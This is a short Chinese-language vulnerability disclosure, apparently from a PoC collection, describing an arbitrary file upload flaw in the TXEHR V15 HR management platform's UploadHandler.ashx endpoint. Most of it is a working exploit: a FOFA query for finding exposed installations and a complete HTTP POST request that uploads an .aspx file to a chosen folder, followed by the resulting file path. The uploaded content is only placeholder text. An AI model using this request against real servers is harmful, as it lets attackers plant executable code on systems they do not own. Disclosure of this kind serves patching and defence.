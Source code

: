 # 同享人力管理管理平台UploadHandler存在任意文件上传漏洞

同享软件成立于1997年，运营中心位于东莞南城南新产业国际。专注研发和推广人力资源信息化产品，帮助企业构建统一的人力资源数智化平台，快速提高企业人才管理能力，提升人力资源管理效率，帮助员工快速成长，协助企业实现智慧决策。同享TXEHR V15人力管理管理平台UploadHandler存在任意文件上传漏洞。

## fofa

```java
body="/Assistant/Default.aspx"
```

## poc

```java
POST /Handler/UploadHandler.ashx?folder=Uploadfile2 HTTP/1.1
Host: 
accept: */*
Content-Type: multipart/form-data; boundary=---------------------------123
Content-Length: 226
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------123
Content-Disposition: form-data; name="Filedata"; filename="12333.aspx"
Content-Type: text/plain

safdsfsfaa
-----------------------------123--
```

![image-20240802210147084](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202408022101143.png)

文件路径：`http://127.0.0.1:9000/Handler/Uploadfile2/12333.aspx`

![image-20240802210206242](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202408022102279.png)